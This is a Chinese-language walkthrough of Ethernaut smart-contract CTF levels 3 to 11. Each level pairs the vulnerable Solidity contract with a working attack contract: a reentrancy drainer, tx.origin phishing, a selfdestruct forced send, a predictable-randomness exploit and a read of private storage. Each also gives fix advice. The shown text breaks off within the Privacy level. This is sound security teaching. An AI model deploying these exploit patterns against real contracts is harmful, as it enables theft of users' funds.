



## 相关资料

### 网站: [Ethernaut](https://ethernaut.openzeppelin.com/)

### 工具: [Remix](https://remix.ethereum.org/)

## 3. Coin Filp


### 要求

这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

**这可能能帮助到你**

查看上面的帮助页面，"Beyond the console" 部分

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

### 分析

该代码使用已知数据进行计算，计算的数据输入在链上完全是公开的，可以自行通过计算得到

### 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack{

    error FlipFaild();

    CoinFlip private immutable target;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    constructor(address _target){
        target = CoinFlip(_target);
    }

    function flip() external {
        if(!target.flip(_guess())){
            revert FlipFaild();
        }

    }

    function _guess() private view returns  (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

}
```

### 笔记

- 通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

- 想要获得密码学上的随机数,你可以使用 Chainlink VRF, 它使用预言机, LINK
  token, 和一个链上合约来检验这是不是真的是一个随机数.

- 一些其它的选项包括使用比特币block headers (通过验证 BTC Relay), RANDAO, 或是 Oraclize。

## 4. Telephone


### 要求

获得合约 owner 权限

### 代码

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### 分析

`tx.origin` 和 `msg.sender` 可以创造条件直接满足，改变 owner。

### 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack{
    Telephone private immutable target;

    constructor (address _target) {
        target = Telephone(_target);
    }

    function changeOwner(address _owner) public {
        target.changeOwner(_owner);
    }
}
```

### 笔记

这个例子比较简单, 混淆 `tx.origin` 和 `msg.sender` 会导致 `phishing-style` 攻击, 比如
[这个](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)

下面描述了一个可能的攻击.

使用 tx.origin 来决定转移谁的token, 比如:

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

攻击者通过调用合约的 `transfer` 函数是受害者向恶意合约转移资产, 比如

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

在这个情况下, `tx.origin` 是受害者的地址 ( `msg.sender`
是恶意协议的地址), 这会导致受害者的资产被转移到攻击者的手上.

### 总结

始终是外部账户（EOA），`tx.origin`
永远指向最初发起交易的人类用户的钱包地址（如 MetaMask 地址），而不可能是合约地址。

无论交易经过多少个合约调用，`tx.origin` 贯穿整个调用链，`tx.origin`
始终保持不变，始终指向交易的最初发起者。

```solidity
contract A {
    function callB(address contractB) public {
        B(contractB).doSomething();
    }
}

contract B {
    function doSomething() public {
        // 当用户直接调用时：
        // tx.origin = 用户地址
        // msg.sender = 用户地址

        // 当通过合约A调用时：
        // tx.origin = 用户地址（始终不变）
        // msg.sender = 合约A的地址
    }
}
```

#### 图示



#### `tx.origin` 合法使用场景：

虽然不推荐用于授权，但在特定场景下有用：

1. 拒绝合约调用（只允许 EOA）

   ```solidity
   modifier onlyEOA() {
       require(msg.sender == tx.origin, "Contracts not allowed");
       _;
   }
   ```

2. 审计追踪（记录原始发起者）
3. 特殊治理场景（如 DAO 的原始提案人）

#### 心得

- `tx.origin` = 交易的最初人类发起者
- `msg.sender` = 当前直接调用者（可能是合约）
- 永远不要用 `tx.origin` 做权限验证 - 这是智能合约安全的基本准则
  ```
    // ❌ 危险示例：容易受到钓鱼攻击
    function withdraw() public {
        require(tx.origin == owner, "Not owner");
        // ...转账逻辑
    }
    // ✅ 安全做法：使用 msg.sender 做权限检查
    function withdraw() public {
        require(msg.sender == owner, "Not owner");
        // ...转账逻辑
    }
  ```
- 在 99% 的场景中，你都应该使用 `msg.sender` 而非 `tx.origin`

## 5. Token


### 要求

这一关的目标是攻破下面这个基础 token 合约

你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

**这可能有帮助:**

- 什么是 odometer?

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

### 分析

Solidity 0.6 版本没有做 SafeMath 处理，运算会有溢出风险

### 攻击

```
// SPDX-License-Identifier: mit

pragma solidity ^0.6.0;

contract Hack{
    Token private immutable target;

    constructor (address _target) public {
        target = Token(_target);

    }

    function transfer() public {
        target.transfer(msg.sender, 1);
    }
}
```

### 笔记

Overflow 在 solidity 中非常常见, 你必须小心检查, 比如下面这样:

```solidity
if(a + c > a) {
  a = a + c;
}
```

另一个简单的方法是使用 OpenZeppelin 的 SafeMath 库, 它会自动检查所有数学运算的溢出, 可以像这样使用:

```solidity
a = a.add(c);
```

如果有溢出, 代码会自动恢复.

## 6. Delegation


### 要求

这一关的目标是申明你对你创建实例的所有权.

**这可能有帮助**

- 仔细看 solidity 文档关于 delegatecall 的低级函数, 他怎么运行的, 他如何将操作委托给链上库, 以及他对执行的影响.
- Fallback 方法
- 方法 ID

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

### 分析

fallback 会调用 delegate call Delegate 合约，修改 Owner。这是我们进行攻击的入口

#### 回顾一下 函数调用的整体逻辑

**简而言之:**

##### 接收ETH函数 receive

`receive()`函数是在合约收到`ETH`转账时被调用的函数，一个合约最多有一个`receive()`函数，声明方式与一般函数不一样，不需要`function`关键字：`receive() external payable { ... }`。`receive()`函数不能有任何的参数，不能返回任何值，必须包含`external`和`payable`。

`receive()`其实就是转账默认调用函数(1)，如果直接转账就会调用 `receive()`;否则会根据 `msg.data()`
调用对应带有 `payable` 的函数(2)，否则就会调用 带有 `payable` 的 `fallback`(3), 如果都不是，那就
`revert` 会退了。

当合约接收ETH的时候，`receive()`会被触发。`receive()`最好不要执行太多的逻辑因为如果别人用`send`和`transfer`方法发送`ETH`的话，`gas`会限制在`2300`，`receive()`太复杂可能会触发`Out of Gas`报错；如果用`call`就可以自定义`gas`执行更复杂的逻辑（这三种发送ETH的方法我们之后会讲到）。

我们可以在`receive()`里发送一个`event`，例如：

```solidity
// 定义事件
event Received(address Sender, uint Value);
// 接收ETH时释放Received事件
receive() external payable {
    emit Received(msg.sender, msg.value);
}
```

有些恶意合约，会在`receive()` 函数（老版本的话，就是 `fallback()`
函数）嵌入恶意消耗`gas`的内容或者使得执行故意失败的代码，导致一些包含退款和转账逻辑的合约不能正常工作，因此写包含退款等逻辑的合约时候，一定要注意这种情况。

##### 回退函数 fallback

`fallback()`函数会在调用合约不存在的函数时被触发。一个合约最多有一个`fallback()`函数，(带有`payable`则) 可用于接收ETH; 可以用于代理合约`proxy contract`。`fallback()`声明时不需要`function`关键字，必须由`external`修饰，一般也会用`payable`修饰，用于接收ETH:`fallback() external payable { ... }`。

我们定义一个`fallback()`函数，被触发时候会释放`fallbackCalled`事件，并输出`msg.sender`，`msg.value`和`msg.data`:

```solidity
event fallbackCalled(address Sender, uint Value, bytes Data);

// fallback
fallback() external payable{
    emit fallbackCalled(msg.sender, msg.value, msg.data);
}
```

我们使用直观的图来表示一下

##### 合约函数调用图



看看 msg.data: 在 Solidity 中，`msg.data`
是一个**全局变量**，它包含了当前函数调用的完整原始数据。理解 `msg.data`
对于处理低级调用、构建代理合约和实现高级功能至关重要。

---

#### 🔍 `msg.data` 的核心特性

| **属性**     | **说明**                                         |
| ------------ | ------------------------------------------------ |
| **类型**     | `bytes calldata`（只读字节数组）                 |
| **内容**     | 完整的调用数据，包括函数选择器和所有参数         |
| **长度**     | 4字节（函数选择器）+ 参数数据长度（32字节/参数） |
| **不可修改** | 运行时只读，不能写入                             |
| **Gas 消耗** | 访问 `msg.data` 会消耗 Gas（比内存操作更便宜）   |

---

#### 🧩 `msg.data` 的结构解析

##### 典型调用数据组成：

```plaintext
0x
a9059cbb  // 函数选择器 (4字节)
000000000000000000000000d8da6bf26964af9d7eed9e03e53415d37aa96045  // 参数1 (32字节)
0000000000000000000000000000000000000000000000016345785d8a0000  // 参数2 (32字节)
```

1. **函数选择器 (Function Selector)**
   - 前 4 字节
   - 由函数签名的 Keccak256 哈希前 4 字节计算得出

   ```solidity
   // 示例：transfer(address,uint256) 的选择器
   bytes4(keccak256("transfer(address,uint256)")); // 0xa9059cbb
   ```

2. **参数数据**
   - 每个参数按 ABI 编码规则填充为 32 字节
   - 动态类型（如 string/bytes）有特殊编码规则

---

#### ⚙️ 使用场景与代码示例

##### 场景 1: 代理合约转发调用

```solidity
contract Proxy {
    address implementation;

    fallback() external payable {
        address impl = implementation;
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), impl, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
}
```

- 使用 `calldatasize()` 获取 `msg.data` 长度
- `calldatacopy` 将 `msg.data` 复制到内存

##### 场景 2: 提取函数选择器

```solidity
function getSelector() public pure returns (bytes4 selector) {
    assembly {
        selector := calldataload(0)
    }
    // 或更简单的方式：
    // return bytes4(msg.data[0:4]);
}
```

##### 场景 3: 手动解析参数

```solidity
function parseTransfer() public pure returns (address to, uint amount) {
    require(msg.data.length == 4 + 32*2, "Invalid data length");

    assembly {
        to := calldataload(4)        // 跳过前4字节选择器
        amount := calldataload(36)    // 第二个参数位置
    }
}
```

#### 🛡️ 安全注意事项

1. **防止短地址攻击**

   ```solidity
   function safeTransfer(address to) public {
       require(msg.data.length == 4 + 32, "Invalid calldata length");
       // ...
   }
   ```

2. **动态类型验证**  
   动态类型需要偏移量验证：

   ```solidity
   function setData(string memory data) public {
       uint offset = uint(bytes32(msg.data[4:36]));
       require(offset == 0x20, "Invalid offset");
       // ...
   }
   ```

3. **Gas 优化技巧**

   ```solidity
   // 高效方式：使用 Yul 汇编直接访问
   assembly {
       let param := calldataload(4)
   }

   // 低效方式：转换为内存（消耗更多 Gas）
   bytes memory data = msg.data; // 避免这样做！
   ```

---

#### 🔄 `msg.data` 与其他全局变量关系

| **变量**        | **与 `msg.data` 的关系**           |
| --------------- | ---------------------------------- |
| `msg.sig`       | `msg.sig == bytes4(msg.data[0:4])` |
| `msg.value`     | 独立值，不包含在 `msg.data` 中     |
| `tx.origin`     | 独立值，与调用数据无关             |
| `address(this)` | 当前合约地址，不影响调用数据       |

---

#### 💡 高级用法

##### 1. 多签验证

```solidity
function execute(
    bytes memory signature,
    address target,
    bytes memory data
) public {
    bytes32 hash = keccak256(abi.encodePacked(msg.data));
    verifySignature(hash, signature);
    (bool success, ) = target.call(data);
    require(success);
}
```

##### 2. 调用链分析

```solidity
event CallTrace(bytes data);

function proxyCall(address target) public {
    emit CallTrace(msg.data);
    (bool success, ) = target.call(msg.data);
    require(success);
}
```

##### 3. ABI 编码兼容性检查

```solidity
function checkSelector(bytes4 expected) public view {
    require(
        bytes4(msg.data) == expected,
        "Incorrect function selector"
    );
}
```

#### 🌐 实际链上案例

1. **Uniswap 路由合约**  
   使用 `msg.data` 将调用转发到多个 Pair 合约

2. **Gnosis Safe 多签钱包**  
   通过 `msg.data` 验证和执行交易

3. **ERC-2771 元交易**  
   用 `msg.data` 验证转发请求的真实性

---

#### 📊 `msg.data` 与其他调用方式的对比

| **调用方式**          | `msg.data` 可用性 | 特点           |
| --------------------- | ----------------- | -------------- |
| 普通函数调用          | ✅ 完整           | 标准调用       |
| `send()`/`transfer()` | ❌ 为空 (`0x`)    | 仅转账，无数据 |
| `call{value:}()`      | ✅ 完整           | 可附加任意数据 |
| `delegatecall()`      | ✅ 完整           | 保持调用上下文 |
| `staticcall()`        | ✅ 完整           | 禁止状态修改   |

---

#### 💎 总结

1. **`msg.data` 是只读字节数组**，包含完整的调用数据
2. **核心组成** = 函数选择器(4字节) + 参数数据(32字节/参数)
3. **主要用途**：
   - 代理合约的调用转发
   - 手动解析低级调用
   - 签名验证和链上分析
4. **安全关键**：
   - 始终验证数据长度
   - 小心处理动态类型
   - 优先使用汇编直接访问

通过深入理解
`msg.data`，您可以构建更灵活、高效的智能合约，特别是需要处理低级调用的复杂系统如代理合约、元交易等。

### 攻击

直接使用 该合约(Delegation) 调用 pwn 即可。



### 笔记

使用delegatecall 是很危险的, 而且历史上已经多次被用于进行 attack
vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权.
delegatecall 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.

### 总结

## 7. Force


### 要求

有些合约就是拒绝你的付款,就是这么任性 ¯\_(ツ)\_/¯

这一关的目标是使合约的余额大于0

**这可能有帮助:**

- Fallback function
- 有时候攻击一个合约最好的方法是使用另一个合约

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

### 分析

该函数没有任何 `payable`,看起来不能接收任何转账。怎么做? Solidity 的 selfdestruct
(析构函数) 会强制将该合约剩余的 ETH 转移到 指定地址上，即使对方没有 payable 函数。

### 攻击

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack{
    constructor(address payable _target) payable{
        selfdestruct(_target);
    }
}
```

### 笔记

在 solidity 中, 如果一个合约要接受 ether, fallback 方法必须设置为 payable.

但是, 并没有发什么办法可以阻止攻击者通过自毁的方法向合约发送 ether, 所以, 不要将任何合约逻辑基于 address(this).balance
== 0 之上。

### 总结

#### 应用场景

**注意**：

- Solidity
  0.8.18+ ：​根据 EIP-6049，selfdestruct 被标记为弃用。编译器会对其使用发出警告，建议开发者避免使用该函数。
- 以太坊 Cancun 升级（计划中）：​依据 EIP-6780，selfdestruct 的行为将被修改。除了在合约部署交易中立即调用的情况外，selfdestruct 将不再删除合约的代码和存储，仅会(强制)转移合约中的以太币余额。
- 即使是低版本的合约，一般不建议使用合约自毁，建议在合约里面加开关，可以通过开关来暂停合约的业务功能。

##### 合约生命周期结束

合约完成所有功能或达到预期目的时，销毁以释放存储资源

function terminateContract() public onlyOwner { selfdestruct(payable(owner)); }

##### 合约需要升级或替换

在需要替换合约逻辑时，可以销毁旧合约，部署新合约。

```
contract OldVersion {
    address public immutable newContract;
    constructor(address _newContract) {
        newContract = _newContract;
    }
    function upgrade() public {
        require(msg.sender == owner, "Unauthorized");
        // 将资金转移到新合约后自毁
        selfdestruct(payable(newContract));
    }
}
```

## 8. Vault


### 要求

- 打开 vault 来通过这一关!

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

### 分析

区块链系统就像一个 公开的云数据库，虽然是叫 password，而且使用了 private
,但其实数据都是公开的。可以直接 查询得到，根据存储结构，可以知道，sload(2)/getStorageAt。

### 攻击

执行 `await web3.eth.getStorageAt(contract.address,1)`

### 笔记

请记住, 将一个变量设制成私有, 只能保证不让别的合约访问他. 设制成私有的状态变量和本地变量, 依旧可以被公开访问.

为了确保数据私有, 需要在上链前加密. 在这种情况下, 密钥绝对不要公开, 否则会被任何想知道的人获得.
[zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/)
提供了一个可以判断某个人是否有某个秘密参数的方法,但是不必透露这个参数.

### 总结

1. 存储密码不应该使用这种方式，我们知道在传统互联网应用中，密码都是要经过 SHA256/RAS 等加密算法加密后存储的，链上也可以参考对应方式。
2. [EVM存储模型-中文](https://learnblockchain.cn/article/9303) |
   [EVM存储模型-英文原版](https://rareskills.io/post/evm-solidity-storage-layout)
3. [EVM动态类型存储-中文](https://learnblockchain.cn/article/9574) |
   [EVM动态类型存储-英文原版](https://rareskills.io/post/solidity-dynamic)

## 8. King


### 要求

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他。

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关。

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

### 分析

我们要获取 改变 king,并且让其他人不能在 改变king。根据我们之前总结的
[合约函数调用图](#合约函数调用图)。

那么我们可以设置攻击合约，不设置 `receive` 和 `fallback payable` 函数，即可。

### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack{
    error CallValueFaild();
    constructor(address payable _target) payable {
        (bool success,) =_target.call{value: King(_target).prize()}("");
        if(!success){
            revert CallValueFaild();
        }
    }
}

```

### 笔记

TODO: 合约 tx 失败

## 9. Re-entrancy


### 要求

这一关的目标是偷走合约的所有资产。

**这些可能有帮助:**

- 不可信的合约可以在你意料之外的地方执行代码.
- Fallback methods
- 抛出/恢复 bubbling
- 有的时候攻击一个合约的最好方式是使用另一个合约.

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

### 分析

典型的重入攻击，单函数重入。不符合 CEI 编码规范。

### 攻击

```
//SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;


contract Hack{
    Reentrance private immutable target;

    constructor(address payable _target) public {
        target = Reentrance(_target);
    }

    function attack() public payable {
        target.donate{value: 1e15}(address(this));
        target.withdraw(1e15);
        require(address(target).balance > 0,"balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint amount = min(1e15,address(target).balance);
        if(amount > 0){
            target.withdraw(amount);
        }
    }

    function min(uint x,uint y) private pure returns(uint){
        return x > y ? y : x;
    }
}

```

### 笔记

为了防止转移资产时的重入攻击, 使用 Checks-Effects-Interactions
pattern 注意 call 只会返回 false 而不中断执行流. 其它方案比如 ReentrancyGuard 或 PullPayment 也可以使用。

transfer 和 send 不再被推荐使用, 因为他们在 Istanbul 硬分叉之后可能破坏合约
[Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) 和
[Source 2](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/)。

总是假设资产的接受方可能是另一个合约, 而不是一个普通的地址. 因此, 他有可能执行了他的payable
fallback 之后又“重新进入” 你的合约, 这可能会打乱你的状态或是逻辑。

重进入是一种常见的攻击. 你得随时准备好!

**The DAO Hack** 著名的DAO hack 使用了重进入攻击, 窃取了受害者大量的 ether. 参见
[15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942)。

### 总结

重入攻击分为

1. 单函数重入
2. 跨函数重入
3. 跨合约重入
4. 只读重入

## 10.Elevator


### 要求

电梯不会让你达到大楼顶部, 对吧?

**这可能有帮助:**

- 有的时候 solidity 不是很擅长保存 promises.
- 这个 电梯 期待被用在一个 建筑 里.

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

### 分析

根据要求应该是让我们把 top 设置为 true, 非常简单，构建 Building 即可。

### 攻击

```solidity
contract Hack{
    Elevator private immutable target;
    uint count = 0;
    constructor(address _target){
        target = Elevator(_target);
    }

    function attack() public {
        target.goTo(1);
    }

    function isLastFloor(uint256) external returns(bool){
        count ++;
        return count > 1;
    }
}
```

### 笔记

你可以在接口使用 `view` 函数修改器来防止状态被篡改。`pure` 修改器也可以防止状态被篡改. 认真阅读
[Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions)
并学习注意事项.

完成这一关的另一个方法是构建一个 view 函数, 这个函数根据不同的输入数据返回不同的结果, 但是不更改状态, 比如
`gasleft()`。

### 总结

## 11. Privacy


### 要求

这个合约的制作者非常小心的保护了敏感区域的 storage.

解开这个合约来完成这一关.

**这些可能有帮助:**

- 理解 storage 的原理
- 理解 parameter parsing 的原理
- 理解 casting 的原理

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
